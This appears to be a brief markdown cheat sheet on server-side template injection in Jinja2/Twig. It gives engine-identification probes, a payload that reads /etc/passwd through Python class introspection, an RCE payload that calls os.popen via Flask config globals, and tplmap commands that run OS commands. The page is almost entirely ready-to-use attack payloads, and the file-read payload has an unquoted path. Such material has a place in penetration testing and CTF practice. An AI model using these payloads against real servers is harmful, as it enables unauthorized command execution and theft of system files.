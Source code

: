 ```yaml
---
layout: post
title: "ssti"
keywords: "server side template injection"
---
```


#### Identification
[Methodology](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#methodology)
```
${7*7} != {{7*7}} = {{7*'7'}} = Jinja2/Twig
```

#### Read File (LFI)
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]()(/etc/passwd).read()}} 
```

#### Remote Code Execution (RCE)
```
{{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}
```

#### TPLMap
```
./tplmap.py -u http://127.0.01/ -d 'name'
./tplmap.py -u http://127.0.01/ -d 'name' --os-cmd 'cat /etc/passwd'
```